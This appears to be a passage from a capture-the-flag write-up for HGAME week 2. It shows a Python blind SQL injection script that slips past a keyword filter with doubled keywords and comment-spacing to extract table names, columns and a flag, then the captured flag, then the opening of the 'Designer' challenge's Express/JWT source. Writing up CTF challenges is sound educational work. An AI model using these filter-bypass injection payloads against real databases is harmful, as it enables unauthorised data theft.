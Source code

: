 ```python
            'SESSION':'MTY3MzYxMjI3NXxEdi1CQkFFQ180SUFBUkFCRUFBQUpQLUNBQUVHYzNSeWFXNW5EQVlBQkhWelpYSUdjM1J5YVc1bkRBZ0FCblZ6WlhJd01RPT1819EjuKIg8HRNvUp9g5dHKvQhbBTVvPnFni3NaQiXCZE='
        }
        url = 'http://week-2.hgame.lwsec.cn:31537/search'
        # payload = "if(ascii(substr((selselectect/*123*/group_concat(table_name)/*123*/frfromom/*123*/infoorrmation_schema.tables/*123*/whwhereere/*123*/table_schema/*123*/like/*123*/datdatabaseabase()),{},1)) like '{}',1,0)".format(i, s)
        # payload = "if(ascii(substr((selselectect/*123*/group_concat(column_name)/*123*/frfromom/*123*/infoorrmation_schema.columns/*123*/whwhereere/*123*/table_name/*123*/like/*123*/'5ecret15here'),{},1)) like '{}',1,0)".format(i, s)
        payload = "if(ascii(substr((selselectect/*123*/f14gggg1shere/*123*/frfromom/*123*/5ecret15here),{},1)) like '{}',1,0)".format(i, s)
        data = {'search_id': payload}
        print(chr(s))
        res = requests.post(url, cookies=cookies, data=data)
        if 'Error Occurred' in res.text:
            print('error')
            quit()
        if 'Not Found' not in res.text:
            flag += chr(s)
            print('found!!!', flag)
            break
```

`hgame{4_M4n_WH0_Kn0ws_We4k-P4ssW0rd_And_SQL!}`

### Designer

```javascript
const express = require("express")
const jwt = require("jsonwebtoken")
const puppeteer = require('puppeteer')
const querystring = require('node:querystring')

const app = express()

app.use(express.static("./static"))
app.use(express.json())
app.set("view engine", "ejs")
app.set("views", "views")
app.use(express.urlencoded({ extended: false }))

const secret = "secret_here"

function auth(req, res, next) {
  const token = req.headers["authorization"]
  if (!token) {
    return res.redirect("/")
  }
  try {
    const decoded = jwt.verify(token, secret) || {}
    req.user = decoded
  } catch {
    return res.status(500).json({ msg: "jwt decode error" })
  }
  next()
}

app.get("/", (req, res) => {
  res.render("register")
})

app.post("/user/register", (req, res) => {
  const username = req.body.username
```